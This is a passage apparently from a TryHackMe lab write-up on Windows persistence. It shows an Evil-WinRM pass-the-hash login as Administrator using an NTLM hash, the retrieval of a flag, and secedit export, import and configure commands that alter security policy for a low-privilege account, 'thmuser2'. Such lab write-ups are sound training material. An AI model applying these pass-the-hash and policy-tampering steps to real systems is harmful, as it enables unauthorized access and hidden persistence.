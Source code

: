 ```
[*] Cleaning up... 

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.6.15 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                               

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                 

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\
*Evil-WinRM* PS C:\> cd flags
*Evil-WinRM* PS C:\flags> .\flag1.exe
THM{FLAG_BACKED_UP!}

```

Insert flag1 here
*THM{FLAG_BACKED_UP!}*

```
C:\Users\Administrator>secedit /export /cfg config.inf

The task has completed successfully.
See log %windir%\security\logs\scesrv.log for detail info.

C:\Users\Administrator>secedit /import /cfg config.inf /db config.sdb

C:\Users\Administrator>secedit /configure /db config.sdb /cfg config.inf

The task has completed successfully.
See log %windir%\security\logs\scesrv.log for detail info.

C:\Users\Administrator>net user thmuser2
User name                    thmuser2
Full Name                    thmuser2
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/28/2022 11:48:03 PM
Password expires             Never
Password changeable          5/28/2022 11:48:03 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Users
Global Group memberships     *None
The command completed successfully.
```
